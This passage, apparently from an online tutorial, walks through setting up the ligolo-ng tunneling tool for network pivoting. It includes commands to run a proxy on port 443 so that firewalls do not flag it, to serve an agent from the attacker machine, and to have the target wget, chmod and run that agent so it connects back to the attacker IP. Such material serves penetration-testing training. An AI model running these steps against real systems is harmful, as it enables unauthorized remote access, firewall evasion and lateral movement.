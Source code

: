 sudo wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz

**Proxy File:**

sudo wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz

Now we need to unpack these files with the following commands and I recommend renaming them to the specific system you are going to use them on.

tar -xvf ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz  
  
ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz  
  
sudo mv proxy lin-proxy  
  
sudo mv agent lin-agent

**Step 2:**

There are some prerequisite commands we need to run before launching ligolo. These commands create a tun interface on the Proxy Server (C2).

sudo ip tuntap add user [your_username] mode tun ligolo  
  
sudo ip link set ligolo up

On your machine get ligolo running:

./lin-proxy -selfcert -laddr 0.0.0.0:443 

**_Note:_** You can chose any port to listen on. I chose 443 because this port is known by most firewalls and wont get flagged.

![](https://miro.medium.com/v2/resize:fit:700/1*ermCj8d199rHTXeCabiXlA.png)

Ligolo tool running

In another window once the above commands are all followed we need to push the agent file onto the target machine. You can accomplish this by running a python web server in the directory where the agent file resides.

sudo python -m http.server 80

Grab the agent file from the attacker machine using wget.

Run these commands on the Target Machine:

wget http://<your attacker machine IP here>/lin-agent  
  
chmod +x lin-agent  
  
./lin-agent -connect <attacker IP here>:443 -ignore-cert

![](https://miro.medium.com/v2/resize:fit:700/1*MeSYHb1wE5Sm_MCQdO2r9A.png)

Connection Established

You should see the connection get grabbed by the ligolo tool if the commands were ran successfully on target machine. You can manage your tunneled sessions in the tool by typing _session_ in the above example screenshot and you can toggle between them once more are established. \
